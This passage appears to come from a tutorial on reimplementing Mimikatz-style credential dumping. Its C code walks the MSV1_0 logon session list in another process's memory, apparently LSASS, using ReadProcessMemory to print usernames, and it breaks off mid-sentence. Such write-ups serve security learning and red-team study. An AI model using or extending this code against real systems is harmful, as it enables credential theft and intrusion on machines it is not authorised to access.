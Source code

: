 
Now with the list we can start iterating through it very similarly to the rest of the `LIST_ENTRY` structures we were looking at earlier.  We'll setup another pointer to another list structure and set that equal to the next entry in the list with `head.Flink` and then we can start looping through all of the list entries:

```c
	// Step 3: iterate the linked list
	PKIWI_MSV1_0_LIST_63 current = head.Flink;
	while (current && current != headPtr) {
		KIWI_MSV1_0_LIST_63 node = { 0 };
		if (!ReadProcessMemory(hTarget, current, &node, sizeof(node), NULL)) {
			printf("[-] Failed to read node @ %p\n", current);
			break;
		}
		printf("KIWI STRUCT 0x%p\n", node);
		printf("Username Buffer 0x%p", node.UserName.Buffer);

```

Inside the while loop once we ensure that our current place in the list is not pointing back to the start, we can read the contents of that list entry and store it in `node`.

THIS is what grants us access to the struct we talked about earlier.  From here we can parse out usernames, domains, times, ect.  

One thing to keep in mind, is that the username is not actually stored within this structure however, only a pointer to the buffer containing the usernames and domains.  So we read the pointer for the current list entries' username and then store that inside of a buffer that we can print:

```c
printf("KIWI STRUCT 0x%p\n", node);
printf("Username Buffer 0x%p", node.UserName.Buffer);

// Step 4: read the username if present
if (node.UserName.Buffer && node.UserName.Length > 0) {
	wchar_t buffer[256] = { 0 };
	SIZE_T bytesToRead = min(node.UserName.Length, sizeof(buffer) - sizeof(wchar_t));

	if (ReadProcessMemory(hTarget, node.UserName.Buffer, buffer, bytesToRead, NULL)) {
		// Length is in bytes, so divide by sizeof(WCHAR)
		wprintf(L"[+] Username: %.*s\n", node.UserName.Length / sizeof(WCHAR), buffer);
	}
	else {
		printf("[-] Failed to read username buffer @ %p\n", node.UserName.Buffer);
	}

}
else {
	printf("[*] NO USERNAME\n");
}
```

Finally we just need to advance the list with 
